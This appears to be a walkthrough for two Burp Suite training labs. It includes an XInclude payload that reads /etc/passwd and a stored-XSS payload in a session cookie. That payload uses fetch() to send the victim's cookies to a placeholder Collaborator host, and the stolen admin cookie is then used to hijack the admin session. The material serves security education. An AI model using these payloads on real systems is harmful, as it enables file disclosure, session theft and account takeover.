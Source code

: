 Lab: Discovering vulnerabilities quickly with targeted scanning

*targeted scanning*

payload:

productId=<foo+xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include+parse="text"+href="file:///etc/passwd"/></foo>&storeId=1

Lab: Scanning non-standard data structures

Identify the vulnerability

    Log in to your account with the provided credentials.
    In Burp, go to the Proxy > HTTP history tab.
    Find the GET /my-account?id=wiener request, which contains your new authenticated session cookie.
    Study the session cookie and notice that it contains your username in cleartext, followed by a token of some kind. These are separated by a colon, which suggests that the application may treat the cookie value as two distinct inputs.
    Select the first part of the session cookie, the cleartext wiener.
    Right-click and select Scan selected insertion point, then click OK.
    Go to the Dashboard and wait for the scan to complete.

Approximately one minute after the scan starts, notice that Burp Scanner reports a Cross-site scripting (stored) issue. It has detected this by triggering an interaction with the Burp Collaborator server.
Note

The delay in reporting the issue is due to the polling interval. By default, Burp polls the Burp Collaborator server for new interactions every minute.

Steal the admin user's cookies

    In the Dashboard, select the identified issue.
    In the lower panel, open the Request tab. This contains the request that Burp Scanner used to identify the issue.
    Send the request to Burp Repeater.
    Go to the Collaborator tab and click Copy to clipboard. A new Burp Collaborator payload is saved to your clipboard.
    Go to the Repeater tab and use the Inspector to view the cookie in its decoded form.

    Using the Collaborator payload you just copied, replace the proof-of-concept that Burp Scanner used with an exploit that exfiltrates the victim's cookies. For example:
    '"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID

    Note that you need to preserve the second part of the cookie containing your session ID.
    Click Apply changes, and then click Send.
    Go back to the Collaborator tab. After approximately one minute, click Poll now. Notice that the Collaborator server has received new DNS and HTTP interactions.
    Select one of the HTTP interactions.
    On the Request to Collaborator tab, notice that the path of the request contains the admin user's cookies.

Use the admin user's cookie to access the admin panel

    Copy the admin user's session cookie.
    Go to Burp's browser and open the DevTools menu.
    Go to the Application tab and select Cookies.
    Replace your session cookie with the admin user's session cookie, and refresh the page.
    Access the admin panel and delete carlos to solve the lab.

